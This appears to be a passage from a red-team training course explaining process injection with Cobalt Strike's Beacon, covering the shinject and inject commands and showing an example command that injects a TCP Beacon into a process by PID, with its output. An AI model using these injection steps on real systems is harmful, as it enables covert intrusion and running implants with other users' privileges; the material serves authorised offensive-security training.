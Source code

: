 Process injection allows us to inject arbitrary shellcode into a process of our choosing.  You can only inject into processes that you can obtain a handle to with enough privileges to write into its memory.  In a non-elevated context, which usually limits you to your own processes.  In an elevated context, this includes processes owned by other users.

Beacon has two main injection commands - `shinject` and `inject`.  `shinject` allows you to inject any arbitrary shellcode from a binary file on your attacking machine; and `inject` will inject a full Beacon payload for the specified listener.

If we wanted to inject a TCP Beacon payload into the MMC process mentioned in the previous module, we could do:
```
beacon> inject 4464 x64 tcp-local
[*] Tasked beacon to inject windows/beacon_bind_tcp (127.0.0.1:4444) into 4464 (x64)
[+] established link to child beacon: 10.10.123.102
```
  

Where:

- 4464 is the target PID.
- x64 is the architecture of the process.
- tcp-local is the listener name.

  

The command will also automatically attempt to connect to the child if a P2P listener is used.  The resulting Beacon will run with the full privilege of the user who owns the process.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/49e/e38/b9f/injection.png)

  

The same caveats also apply - if the user closes this process, the Beacon will be lost.  The shellcode that's injected uses the Exit Thread function, so it won't kill the process if we exit the Beacon.